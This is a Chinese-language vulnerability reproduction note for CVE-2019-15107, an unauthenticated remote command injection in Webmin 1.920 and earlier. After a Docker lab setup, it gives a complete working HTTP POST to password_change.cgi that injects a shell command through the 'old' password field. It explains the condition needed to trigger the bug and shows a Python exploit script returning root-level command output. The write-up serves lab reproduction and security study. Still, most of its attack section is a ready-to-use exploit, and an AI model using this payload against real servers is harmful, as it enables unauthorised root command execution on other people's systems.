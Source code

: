 ```yaml
---
title: （CVE-2019-15107）Webmin 远程命令执行漏洞
id: zhfly3234
---
```


# （CVE-2019-15107）Webmin 远程命令执行漏洞

## 一、漏洞简介

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

## 二、漏洞影响

Webmin <= 1.920

## 三、复现过程

### 环境搭建

执行如下命令，启动webmin 1.910：

```
docker-compose up -d 
```

执行完成后，访问https://0-sec.org:10000，忽略证书后即可看到webmin的登录页面。

### 复现

参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是user=root），才会进入到修改/etc/shadow的地方，触发命令注入漏洞。

发送如下数据包，即可执行命令id：

```
POST /password_change.cgi HTTP/1.1
Host: 0-sec.org:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60 `user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2` 
```

![image](../img/d1f3abf84be36f0a63da9969e1ab3546.png)

### python usage:

python CVE_2019_15107.py https://0-sec.org:10000 cmd

```
C:\Users\CTF\Desktop>python CVE_2019_15107.py https://10.10.20.166:10000 id

* * *

(  ____ |\     /|(  ____ \     / ___   )(  __   )/  \   / ___ \     /  \  (  ____ /  \  (  __   )/ ___  

| (    /| )   ( || (    /     /   )  || (  )  |/) ) ( (   ) )    /) ) | (    //) ) | (  )  |/   )  )

| |      | |   | || (__             /   )| | /   |  | | ( (***) |      | | | (***_    | | | | /   |    /  /

| |      ( (   ) )|  **)          */   / | (/ /) |  | |  _***  |      | | (_____ \   | | | (/ /) |   /  /

| |       \ _/ / | (            /   */  |   / | |  | |       ) |      | |       ) )  | | |   / | |  /  /

| (****/\  \   /  | (****/\     (   (**/|  (**) |__) (*/_***) )    __) (*/_***) )**) (*|  (*_) | /  /

(*******/   _/   (*******/*****_******/(*******)_***/_*****/*****_***/_*****/ _***/(*****______) _/

(*****)                              (***__)

python By jas502n

vuln_url= [https://0-sec.org:10000/password_change.cgi](https://0-sec.org:10000/password_change.cgi) `Command Result = uid=0(root) gid=0(root) groups=0(root)` 
```

## 四、参考链接

> https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
> https://www.exploit-db.com/exploits/47230
> https://blog.firosolutions.com/exploits/webmin/